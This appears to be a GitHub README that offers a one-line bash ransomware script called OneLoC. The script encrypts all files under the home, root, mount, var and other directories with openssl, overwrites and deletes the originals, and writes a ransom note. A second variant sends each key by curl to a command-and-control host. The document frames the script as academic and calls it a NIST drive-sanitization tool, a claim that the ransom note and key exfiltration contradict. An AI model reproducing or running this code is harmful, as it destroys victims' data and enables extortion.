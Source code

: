 # Ransomware-Oner-Line - OneLoC 

This is a code for ransomware in bash script oner line. !!! PURELY FOR ACADEMICAL PURPOSES !!!  

I am not responsible in any way for the misuse of this script, this is code normally installed in any linux distribution  
that has been bundled in a way to encrypt all data using AES-CBC-256 encryption with openssl.  

This script was developed for the purpose of sanitizing physical storage drives for disposal to NIST-800-88 standard  

With great powers, great responsibilities...  

### OneLoC Code
#### One LoC: One Line Of Code

```
Ransom@lock:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do rdc=$(mktemp -u|rev|cut -d"." -f1) && CODE=$rdc$RANDOM && openssl enc -aes-256-cbc -a -salt -in $i -out $i.LoC -k $(echo -n $CODE | base64 | sha256sum) && echo "OneLoC Anti-Forensic..." > $i && rm -rf $i;echo 'All your files has been encrypted by: OneLoC !' > $HOME/README.TXT;done >/dev/null 2>&1&
```

#### With Exfiltration:  
```
Ransom@lock:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do rdc=$(mktemp -u|rev|cut -d"." -f1) && CODE=$rdc$RANDOM && curl -s -X GET https://c2.att.ck/exfilt.php?key=$CODE -k && openssl enc -aes-256-cbc -a -salt -in $i -out $i.LoC -k $(echo -n $CODE | base64 | sha256sum) && echo "OneLoC Anti-Forensic..." > $i && rm -rf $i;echo 'All your files has been encrypted by: OneLoC !' > $HOME/README.TXT;done >/dev/null 2>&1&
```  


